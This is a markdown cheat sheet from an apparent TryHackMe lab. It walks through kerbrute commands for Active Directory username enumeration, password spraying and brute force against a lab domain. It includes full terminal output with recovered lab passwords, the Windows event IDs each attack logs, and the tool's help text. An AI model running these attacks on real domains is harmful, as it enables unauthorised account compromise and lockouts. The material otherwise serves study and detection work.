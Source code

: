 
obs! last updated 2019 - version 1.0.3! - Still mostly works though
(The date shown in the file date)

a quick way to enumerate users using a wordlist and asreproasting
	= checking is an account doesn't require preauth (so we can get the hash without authenticating - but here we just use it to enum, not actually check for a hash or even if it is a no preauth account)
(in the code we see get hash functionality though)

### Enumerating users

`~/tools/kerbrute userenum -d domain.com --dc 10.10.10.10 usernames.txt` 

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute userenum -d spookysec.local --dc 10.10.229.142 userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:19:37 >  Using KDC(s):
2025/07/04 19:19:37 >   10.10.229.142:88

2025/07/04 19:19:37 >  [+] VALID USERNAME:       james@spookysec.local
2025/07/04 19:19:38 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       James@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       robin@spookysec.local
2025/07/04 19:19:43 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/07/04 19:19:45 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/07/04 19:19:49 >  [+] VALID USERNAME:       backup@spookysec.local
2025/07/04 19:19:51 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/07/04 19:20:03 >  [+] VALID USERNAME:       JAMES@spookysec.local
2025/07/04 19:20:08 >  [+] VALID USERNAME:       Robin@spookysec.local
2025/07/04 19:20:32 >  [+] VALID USERNAME:       Administrator@spookysec.local
2025/07/04 19:21:21 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2025/07/04 19:21:37 >  [+] VALID USERNAME:       Paradox@spookysec.local
2025/07/04 19:22:30 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2025/07/04 19:22:45 >  [+] VALID USERNAME:       ori@spookysec.local
2025/07/04 19:23:18 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2025/07/04 19:25:13 >  Done! Tested 73317 usernames (16 valid) in 336.514 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)

### Password spray

`~/tools/kerbrute passwordspray -d domain.com --dc 10.10.10.10 domain_users password123`

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute passwordspray -d spookysec.local --dc 10.10.229.142 users.txt management2005

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:42:01 >  Using KDC(s):
2025/07/04 19:42:01 >   10.10.229.142:88

2025/07/04 19:42:01 >  [+] VALID LOGIN:  svc-admin@spookysec.local:management2005
2025/07/04 19:42:01 >  Done! Tested 8 logins (1 successes) in 0.104 seconds
```

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute passwordspray -d spookysec.local --dc 10.10.229.142 users.txt Password123  

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:42:22 >  Using KDC(s):
2025/07/04 19:42:22 >   10.10.229.142:88

2025/07/04 19:42:22 >  Done! Tested 8 logins (0 successes) in 0.216 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Brute force specific user

`~/tools/kerbrute bruteuser -d domain.com --dc 10.10.10.10 passwords.txt usernamehere`

```
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute bruteuser -d spookysec.local --dc 10.10.229.142 passwordlist.txt a-spooks    

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 20:02:44 >  Using KDC(s):
2025/07/04 20:02:44 >   10.10.229.142:88

2025/07/04 20:15:49 >  Done! Tested 70188 logins (0 successes) in 784.784 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Brute Force with stdin info

`cat creds-pairs.txt | ~/tools/kerbrute ** **-d domain.com --dc 10.10.10.10 -`
where cread-pairs.txt has the format user:pass, one pair per line

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute bruteforce -d spookysec.local --dc 10.10.229.142 user-pass.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 20:30:43 >  Using KDC(s):
2025/07/04 20:30:43 >   10.10.229.142:88

2025/07/04 20:30:43 >  [+] VALID LOGIN:  svc-admin@spookysec.local:management2005
2025/07/04 20:30:43 >  [+] VALID LOGIN:  backup@spookysec.local:backup2517860
2025/07/04 20:30:43 >  Done! Tested 2 logins (2 successes) in 0.304 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Help

```sh
┌──(kali㉿proxli)-[~/tools]
└─$ ./kerbrute -h             

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user´s password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

```sh
┌──(kali㉿proxli)-[~/tools]
└─$ ./kerbrute userenum --help

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

Will enumerate valid usernames from a list by constructing AS-REQs to requesting a TGT from the KDC.
If no domain controller is specified, the tool will attempt to look one up via DNS SRV records.
A full domain is required. This domain will be capitalized and used as the Kerberos realm when attempting the bruteforce.
Valid usernames will be displayed on stdout.

Usage:
  kerbrute userenum [flags] <username_wordlist>

Flags:
  -h, --help   help for userenum

Global Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors
```
